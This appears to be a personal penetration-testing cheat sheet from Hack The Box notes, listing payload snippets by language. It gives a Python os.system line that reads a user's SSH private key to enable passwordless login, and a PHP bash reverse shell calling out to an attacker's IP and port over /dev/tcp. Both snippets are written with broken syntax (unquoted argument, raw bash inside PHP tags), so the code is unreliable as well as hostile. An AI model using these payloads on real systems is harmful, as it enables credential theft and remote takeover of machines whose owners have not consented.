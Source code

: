 ## Python
- `import os; os.system({BASH COMMAND})` ex. from [Share - Writeup](</HTB Machines/WriteUps/Share - Writeup>) `import os; os.system(cat ~/.ssh/id_rsa > /tmp)` this command was used in order to get the id_rsa of the user running the process in order to enter to the user via ssh with no password

## PHP
- `<?php bash -c 'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1' ?>` - Basic PHP reverse shell
